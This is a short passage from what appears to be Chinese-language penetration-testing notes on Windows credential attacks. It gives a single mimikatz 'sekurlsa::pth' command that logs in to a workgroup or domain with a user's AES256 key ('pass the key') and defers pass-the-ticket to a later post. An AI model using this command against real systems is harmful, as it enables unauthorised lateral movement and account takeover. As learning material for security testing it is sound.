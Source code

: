 ## [PTK aes256 传递](#toc_ptk-aes256)

打补丁后的工作组及域连接：

```bash
sekurlsa::pth /user:webserver-2008 /domain:uf9n1x /aes256:d7c1d9310753a2f7f240e5b2701dc1e6177d16a6e40af3c5cdff814719821c4b
```

## [PTT 票据传递](#toc_ptt)

需要先了解 kerberos 认证原理，及金票银票等，放在下一篇讨论
